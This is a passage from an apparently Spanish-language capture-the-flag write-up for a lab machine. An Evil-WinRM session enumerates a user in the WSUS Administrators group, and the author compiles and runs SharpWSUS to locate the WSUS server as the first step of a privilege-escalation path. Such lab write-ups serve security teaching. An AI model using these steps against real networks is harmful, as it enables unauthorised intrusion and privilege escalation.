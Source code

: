 ```shell
*Evil-WinRM* PS C:\Users\sflowers\Desktop> net user sflowers
User name                    sflowers
Full Name                    Susan Flowers
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            6/20/2022 11:04:09 AM
Password expires             Never
Password changeable          6/21/2022 11:04:09 AM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   8/26/2024 7:45:35 PM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use*WSUS Administrators
Global Group memberships     *Domain Users
The command completed successfully.
```

Después de leer e investigar un rato me encontré [este post](https://labs.nettitude.com/blog/introducing-sharpwsus/) donde habla de un binario llamado SharpWSUS.exe

Nos vamos a descargar el repositorio y a compilarlo.
https://github.com/nettitude/SharpWSUS

Una vez lo tengamos en la máquina víctima, el primer paso es encontrar el servidor WSUS.
```shell
*Evil-WinRM* PS C:\Users\sflowers\Desktop> .\SharpWSUS.exe locate

 ____  _                   __        ______  _   _ ____
/ ___|| |__   __ _ _ __ _ _\ \      / / ___|| | | / ___|
\___ \| '_ \ / _` | '__| '_ \ \ /\ / /\___ \| | | \___ \
 ___) | | | | (_| | |  | |_) \ V  V /  ___) | |_| |___) |
|____/|_| |_|\__,_|_|  | .__/ \_/\_/  |____/ \___/|____/
                       |_|
           Phil Keeble @ Nettitude Red Team

[*] Action: Locate WSUS Server
WSUS Server: http://wsus.outdated.htb:8530

[*] Locate complete

```
